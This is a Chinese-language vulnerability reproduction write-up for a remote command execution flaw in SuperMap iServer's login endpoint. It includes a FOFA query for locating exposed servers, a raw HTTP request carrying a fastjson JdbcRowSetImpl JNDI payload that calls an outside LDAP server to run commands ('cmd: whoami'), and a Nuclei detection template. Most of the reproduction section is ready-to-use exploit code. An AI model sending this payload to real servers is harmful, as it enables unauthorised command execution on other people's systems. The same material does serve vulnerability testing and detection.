



# 一、漏洞简介
SuperMap iServer 是基于跨平台 GIS 内核的云 GIS 应用服务器产品，该产品通过服务的方式，面向网络客户端提供与专业 GIS 桌面产品相同功能的 GIS 服务；能够管理、发布和无缝聚合多源服务，包括 REST 服务、OGC 服务（WMS、WMTS、WFS、WCS、WPS、CSW）等；支持多种类型客户端访问；支持分布式环境下的数据管理、编辑和分析等 GIS 功能；提供从客户端到服务器端的多层次扩展的面向服务 GIS 的开发框架。SuperMap iServer login存在远程命令执行漏洞

# 二、影响版本
+ SuperMap iServer

# 三、资产测绘
+ fofa`app="SuperMap-iServer"`
+ 特征



# 四、漏洞复现
启用jnid服务



```java
POST /iserver/services/security/login.json?_t=1655187360048 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Connection: close
Accept-Encoding: gzip, deflate
cmd: whoami
Content-Type: application/json
Content-Length: 244

{
"rasdnd1": {
    "@type": "java.lang.Class", 
    "val": "com.sun.rowset.JdbcRowSetImpl"
}, 
"randfd2": {
    "@type": "com.sun.rowset.JdbcRowSetImpl", 
    "dataSourceName": "ldap://ip:1389/Basic/TomcatEcho", 
    "autoCommit": true
}
}
```



```java
id: msk-template

info:
  name: SuperMap iServer login远程命令执行
  author: xiaokp7
  severity: high


http:
  - raw:
      - |
        POST /iserver/services/security/login.json?_t=1655187360048 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
        Connection: close
        Accept-Encoding: gzip, deflate
        Content-Type: application/json

        {
        "rasdnd1": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "randfd2": {
            "@type": "com.sun.rowset.JdbcRowSetImpl", 
            "dataSourceName": "ldap://{{interactsh-url}}", 
            "autoCommit": true
        }
        }

    matchers:
      - type: word
        part: interactsh_protocol # Confirms the DNS Interaction
        words:
          - "dns"
```

